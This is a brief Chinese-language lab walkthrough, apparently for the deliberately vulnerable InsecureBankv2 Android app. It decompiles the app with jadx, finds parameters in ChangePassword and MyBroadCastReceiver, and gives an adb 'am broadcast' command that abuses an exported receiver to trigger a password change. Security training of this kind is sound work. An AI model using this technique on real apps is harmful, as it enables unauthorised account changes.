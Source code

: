 再使用 jadx 查看之前生成的jar文件，寻找相关源码，在 ChangePassword 中找到了传递的参数：

![](img/查找.jpg)

在 MyBroadCastReceiver 中找到了参数传递语句：

![](img/查找2.jpg)

进入 adb shell ，执行指令：

`am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!`

![](img/shell.jpg)
